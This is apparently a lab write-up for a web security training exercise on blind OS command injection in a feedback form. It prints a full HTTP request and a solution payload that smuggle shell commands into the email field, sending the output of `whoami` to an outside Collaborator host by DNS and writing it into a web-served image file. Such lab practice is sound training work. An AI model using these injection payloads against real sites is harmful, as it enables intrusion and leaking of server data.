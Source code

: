 # Lab: Blind OS command injection with output redirection
## Description

1. Identified the injection using Burp Scanner and Collaborator:
```yaml
POST /feedback/submit HTTP/1.1
Host: ac861f9a1e413ef6c0c52a5900800069.web-security-academy.net
Cookie: session=YoY20C8NwUBUnU7nLW8Ht14la43wubaZ
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

csrf=5WmSWsKs6ZzYLtuMgiwebzscrjS6SW52&name=test&email=test%40test.com||`ping+-c+1+$(whoami).334eucqdk32x01x4u0m2ousqphv9jy.burpcollaborator.net`&subject=test&message=test
```
2. Although above technically solved the lab and would output the value of `whoami`. The lab was asking for us to output the values into a file on the webserver.
3. Browsing around the site, we can see images are loaded from URLs such as `https://ac861f9a1e413ef6c0c52a5900800069.web-security-academy.net/image?filename=6.jpg` indicating that the image filenames are `6.jpg`.
4. The lab description told us the directory `/var/www/images` where writable

## Solution
```
test%40test.com||`ping+-c+1+$(whoami).334eucqdk32x01x4u0m2ousqphv9jy.burpcollaborator.net`|echo+$(whoami)>/var/www/images/6.jpg
```
